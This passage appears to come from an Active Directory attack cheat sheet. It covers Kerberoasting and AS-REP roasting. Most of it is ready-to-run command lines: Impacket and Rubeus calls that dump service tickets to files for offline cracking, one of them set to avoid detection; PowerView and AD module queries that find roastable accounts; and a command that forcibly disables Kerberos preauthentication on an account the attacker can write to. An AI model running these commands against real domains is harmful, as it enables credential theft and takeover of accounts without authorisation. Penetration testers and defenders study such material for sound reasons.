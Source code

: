 - AD Module:

  ```powershell
  #Get User Accounts that are used as Service Accounts
  Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
  ```

- Impacket:

  ```powershell
  python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
  ```

- Rubeus:

  ```powershell
  #Kerberoasting and outputing on a file with a specific format
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>

  #Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec

  #Kerberoast AES enabled accounts
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes

  #Kerberoast specific user account
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple

  #Kerberoast by specifying the authentication credentials
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
  ```

### ASREPRoast

_WUT IS DIS?:_ \
 If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted  
 blob and bruteforce it offline.

- PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
- AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more!
Check for interesting permissions on accounts:

**Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!

PowerView:

```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```
